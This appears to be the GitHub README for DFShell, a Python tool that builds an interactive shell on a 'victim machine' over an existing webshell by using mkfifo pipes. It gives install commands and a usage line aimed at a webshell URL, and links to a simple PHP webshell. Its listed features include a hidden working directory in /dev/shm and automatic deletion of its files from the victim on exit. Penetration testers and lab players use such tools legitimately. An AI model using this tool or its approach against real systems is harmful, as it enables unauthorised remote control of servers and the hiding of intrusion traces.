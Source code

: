 ```
██████╗ ███████╗███████╗██╗  ██╗███████╗██╗     ██╗     
██╔══██╗██╔════╝██╔════╝██║  ██║██╔════╝██║     ██║     
██║  ██║█████╗  ███████╗███████║█████╗  ██║     ██║     
██║  ██║██╔══╝  ╚════██║██╔══██║██╔══╝  ██║     ██║     
██████╔╝██║     ███████║██║  ██║███████╗███████╗███████╗
╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝                      
```

***D3Ext's Forwarded Shell*** it's a python3 script which use mkfifo to simulate a shell into the victim machine.
It creates a hidden directory in /dev/shm/.fs/ and there are stored the created fifos. You can even have a tty over a webshell.

### Why you should use DFShell?
To use other forwarded shells you have to edit the script to change the url and the parameter of the webshell, but **DFShell** use parameters to quickly pass the arguments to the script (-u/--url and -p/--parameter), the script have a pretty output with colors, I'm actually adding a feature to do port forwarding easily and it deletes the files created on the victim if you press Ctrl + C or simply exit from the shell.

## Installation:

> You can use this script in all the unix OS with python
```sh
git clone https://github.com/D3Ext/DFShell
cd DFShell
pip3 install -r requirements
```

> One-liner
```sh
git clone https://github.com/D3Ext/DFShell && cd DFShell && pip3 install -r requirements
```

## Usage:

It's simple, you pass the url of a webshell and the parameter that executes commands.
I recommend you the most simple [webshell](https://github.com/D3Ext/DFShell/blob/main/webshell.php)

```sh
python3 DFShell.py -u http://10.10.10.10/webshell.php -p cmd
```

## Demo:

<img src="">

**If you consider this project has been useful, I would really appreciate supporting me by giving this repo a star or buying me a coffee.**

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/d3ext)

Copyright © 2022, *D3Ext*

